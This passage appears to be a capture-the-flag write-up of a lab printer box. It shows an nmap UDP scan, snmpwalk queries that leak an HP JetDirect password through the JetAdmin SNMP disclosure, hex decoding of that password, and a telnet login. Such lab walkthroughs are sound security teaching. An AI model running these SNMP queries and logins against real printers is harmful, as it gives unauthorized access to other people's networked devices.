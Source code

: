 ```
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>

```
We do not have any open port that responds to 9100 and 8080, so we should discard using this exploit as target is not exploitable.

### SNMP JetAdmin Device Password Disclosure
this exploit requires an open SNMP port, SNMP port is running on port 161 UDP, so we can scan for UDP ports using nmap.
```
Nmap scan report for 10.10.11.107
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT     STATE         SERVICE VERSION
161/udp  open          snmp    SNMPv1 server (public)
2002/udp open|filtered globe
```
SNMP port is open so we can try to exploit this.  
Let's try a SNMP walk and then query for the OID specified in the vulnerability report.
```
[root@kali exploits ]$ snmpwalk -v 2c -c public $TARGET
iso.3.6.1.2.1 = STRING: "HTB Printer"
[root@kali exploits ]$ snmpwalk -v 2c -c public $TARGET .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
BITS array represent the hex encoded password, let's try do decode it!
```
[root@kali exploits ]$ echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xxd -r -p
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i   IY�aA�"1&1A5#          
```
We got telnet passwor, so now we can login int telnet service gaining user access

## User
Now that we have the password for the telnet service we can login to the box, and run help

```
[root@kali ~ ]$ telnet $TARGET
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
```